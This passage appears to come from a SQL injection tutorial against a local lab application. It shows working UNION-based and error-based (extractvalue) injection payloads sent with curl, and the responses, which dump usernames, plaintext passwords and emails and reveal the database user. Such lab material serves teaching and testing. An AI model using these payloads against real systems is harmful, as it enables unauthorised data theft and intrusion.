 Once we can inject, the next question is whether we can retrieve arbitrary data from other tables.

### Union-Based Injection

`UNION SELECT` lets us merge results from a second query into the output of the first, but only if both have the same number of columns.

By matching the column count of the products table query, we can insert users table data into the response:

This involves appending a second `SELECT` statement with the same column count to pull data from another table:

```bash
curl "http://127.0.0.1:8080/search.php?q=test%27%20UNION%20SELECT%20NULL,username,password,email,NULL,NULL%20FROM%20users%20--%20"

<pre>SELECT id, name, price, category, description, stock FROM products WHERE name LIKE '%test' UNION SELECT NULL,username,password,email,NULL,NULL FROM users -- %'</pre><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>name</th><th>price</th><th>category</th><th>description</th><th>stock</th></tr><tr><td></td><td>admin</td><td>admin123</td><td>admin@test.com</td><td></td><td></td></tr><tr><td></td><td>john_doe</td><td>password123</td><td>john@test.com</td><td></td><td></td></tr><tr><td></td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td></td><td></td></tr><tr><td></td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td></td><td></td></tr><tr><td></td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td></td><td></td></tr><tr><td></td><td>test_user</td><td>test123</td><td>test@test.com</td><td></td><td></td></tr></table>
```

The output shows product rows replaced by user credentials and emails.

How does it make sense?

The `search.php` runs a query such as:

```php
SELECT * FROM products WHERE name LIKE '%$q%'
```

Our payload merges `users` table data into the product search results, exposing usernames, passwords, and emails in the same output.

This confirms that the application executes our injected UNION query and combines its results with the original query output.

If the application does not display table data directly, error-based injection can still leak information.

### Error-Based Injection

MySQL functions such as `extractvalue()` throw an error containing the result of a subquery.

By embedding our subquery inside `extractvalue()`, we force MySQL to reveal the current database user in the error message:

```bash
curl "http://127.0.0.1:8080/page.php?id=1%27%20AND%20extractvalue(1,concat(0x7e,(SELECT%20user()),0x7e))%20--%20"

<pre>SELECT * FROM products WHERE id = '1' AND extractvalue(1,concat(0x7e,(SELECT user()),0x7e)) -- '</pre><br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: XPATH syntax error: '~webapp@299.158.1.25~' in /sql/public/page.php:7
```
